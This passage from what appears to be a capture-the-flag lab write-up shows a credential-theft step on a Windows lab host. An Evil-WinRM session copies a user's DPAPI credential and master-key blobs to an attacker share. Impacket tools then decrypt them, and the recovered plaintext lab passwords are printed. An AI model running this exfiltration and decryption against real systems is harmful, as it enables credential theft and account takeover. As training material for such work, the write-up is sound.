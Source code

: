 2- On Victim machine

 

```bash
*Evil-WinRM* PS C:\Users\steph.cooper\Documents> copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9" \\10.10.14.120\share\credential_blob
*Evil-WinRM* PS C:\Users\steph.cooper\Documents> copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407" \\10.10.14.120\share\masterkey_blob
```

We used a known password (`ChefSteph2025!`) with the user SID to decrypt the MasterKey blob using the `impacket-dpapi masterkey` tool.

```bash
└─$ impacket-dpapi masterkey -file masterkey_blob -password 'ChefSteph2025!' -sid S-1-5-21-1487982659-1829050783-2281216199-1107 

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 556a2412-1275-4ccf-b721-e6a0b4f90407
Flags       :        0 (0)
Policy      : 4ccf1275 (1288639093)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84

```

Yeyy! We have the decrypted key . Let’s go ahead and use it to decrypt the credential blobs

POV: With the MasterKey decrypted, you can decrypt all credentials protected by DPAPI for that user.

```bash
└─$ impacket-dpapi credential -file credential_blob -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84 
 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-03-08 15:54:29
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=PUPPY.HTB
Description : 
Unknown     : 
Username    : steph.cooper_adm
Unknown     : FivethChipOnItsWay2025!
```
